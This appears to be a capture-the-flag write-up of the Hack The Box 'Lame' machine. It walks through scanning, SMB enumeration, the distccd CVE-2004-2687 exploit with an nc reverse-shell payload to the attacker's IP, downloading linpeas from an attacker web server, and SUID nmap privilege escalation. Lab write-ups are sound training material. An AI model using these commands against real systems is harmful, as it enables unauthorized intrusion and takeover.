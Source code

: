 # Lame - 10.10.10.3

Started off with a nmap scan ``` nmap -Pn -T5 -sV -sC -A -p- -oN lame_nmap.txt 10.10.10.3 ```
While that was scanning I went to go check out to see if the website is up. But I don't get anything back and you'll see why when the results are done.
We get back some nice info to start us off.
Port 80 isn't open so there was no site for me to check.<br>
But there was other ports open such as port 21 with the version number of <em><strong>vsftpd 2.3.4</em></strong> (This version of vsftpd is vulnerable to backdoor command execution
CVE-2011-2523) I couldn't get it to work though. So I moved on. If you can't get something to work, don't spend to much time on it. Look at the next route you can take and if you get stuck.<br>
again then go back and try to repeat your steps to make sure you didn't make a typo somewhere.

![image](https://user-images.githubusercontent.com/110210595/185813986-3fe1ff10-9b0e-46e6-873a-29d79fd5341e.png)

![image](https://user-images.githubusercontent.com/110210595/185813993-63e2b007-2ec3-4ea1-953e-a9c2db6975a5.png)

I see that smb is open. 139/445. I run ``` smbmap -H 10.10.10 ```
and get back some users.

![image](https://user-images.githubusercontent.com/110210595/185814007-319d68bc-004b-4242-b3e0-a943b4eda8e9.png)

we can see that tmp is READ, WRITE. Lets login and see what we can find.<br>
I use ``` smbclient \\\\10.10.10.3\\tmp ``` and we get a hit.<br>
I use ``` ls ```  to see what we can find. Unfortunately there is nothing here either.<br>
We could use put and get files here but there is no port 80 open for us to execute the files to gain a shell from here. Some bad luck but we got more info so lets keep looking.

![image](https://user-images.githubusercontent.com/110210595/185814036-42698e61-b4e6-4be4-84de-df540f801f33.png)

I go back to the nmap results and see port 3632 is open and it gave us the version of application running.  <em><strong>distccd v1</em></strong><br>
I go to google and search for "<em><strong>distccd v1 exploit</em></strong>" first link brings us to https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855<br>
after reading the exploit it seems to generate a random alpha numeric string. Reads the string. And looks for the trigger exploit which is <em><strong>command, host, port</em></strong><br>
If it is able to connect to the host it will send the payload and hopefully give us a reverse shell.

Let's give it a try. I started by copying the code and writing it to a file naming it CVE-2004-2687.py, did  ``` chmod +x CVE-2004-2687.py ```<br>
the file is ready to be used. First I started a listener on my attacking machine with ``` nc -lvnp 9001 ``` and then used the following command<br>
``` ./CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh" ``` No good, got errors.<br>
Then I tried. ``` python3 CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh" ``` I got a connected to remote service Ok but then the
socket timed out instantly killing the connection. I went back to the exploit and read the comments, it mentioned that python3 is to new.
So I was going to work my way down from python3 to python.<br>
Next up,  ``` python2 CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh" ``` Success, we get a shell!

![image](https://user-images.githubusercontent.com/110210595/185814122-93aa8ce3-0128-4f21-a19b-8d04b5580a30.png)

![image](https://user-images.githubusercontent.com/110210595/185814162-05876fb9-000c-4612-bcfc-bd4d8fc70e88.png)

Let's upgrade the shell. I used the following.<br>
``` python -c 'import pty; pty.spawn("/bin/bash")' ``` python3 and python2 didn't work.<br>
``` export TERM=xterm ```<br>
``` stty raw -echo && fg ```<br>
``` enter ```<br>
``` enter ```<br>

We're a normal user daemon. I started off with ``` sudo -l ``` but it asked for a password. Let's move on.
I look around a bit and ``` cd /home ``` directory and do a ``` ls ``` and see what's there. Nothing good in the user directory but I did go into makis and find the <em><strong>user.txt</em></strong> file. I do a cat user.txt at it and we get out our first flag.  

![image](https://user-images.githubusercontent.com/110210595/185814188-b2d3ad0a-a11d-4f7e-a4bc-49c2566b5fa1.png)

![image](https://user-images.githubusercontent.com/110210595/185814191-f868ba55-884e-4c9e-ba39-267b4ee7455c.png)

Next, let's head over to the tmp directory and try to transfer over some enumeration files like linpeas.sh<br>
I go to my attacking machine on my transfers directory where I store all my enumeration files, scripts, images, anything that can be used to help us get an edge on the victim machine.<br>
I use python3 -m http.server 80 get the server up and running.<br>
On the victim machine ill be in the /tmp directory and use wget://10.10.14.10/linpeas.sh which is my attacking machines ip from HackTheBox.<br>
The file gets transferred over no problem. I use the chmod +x linpeas.sh making it an executable file.<br>
I use ./linpeas.sh and it kicks off no problem. We get back a lot of results. Several vulnerabilities, but one in particular catches my eye with the yellow red highlight.

![image](https://user-images.githubusercontent.com/110210595/185814232-c92b51cf-c297-46b9-ad1f-ed45077f1d5d.png)

![image](https://user-images.githubusercontent.com/110210595/185814233-174d7a35-f050-4533-acd5-6fc6f51f48a7.png)

![image](https://user-images.githubusercontent.com/110210595/185814242-ca1ef7ad-efb5-47bd-8b56-bedfb902f6c7.png)

the /usr/bin/nmap suid<br>
I head over to https://gtfobins.github.io/ and search for nmap<br>
I cd /usr/bin where the suid is located.<br>
I start off with shell code (a) and nothing happened. So I keep going down the list.<br>
Shell (b) worked!

![image](https://user-images.githubusercontent.com/110210595/185814276-6c882b38-ce84-4183-a828-49b30153bc7a.png)

we can now cd /root and see what is there which is the root.txt flag!<br>
we have successfully rooted this box!

![image](https://user-images.githubusercontent.com/110210595/185814294-98c871d4-6e47-46cd-b258-79796039924c.png)

![image](https://user-images.githubusercontent.com/110210595/185814307-20443976-cd82-46bb-8929-1e17fb164988.png)

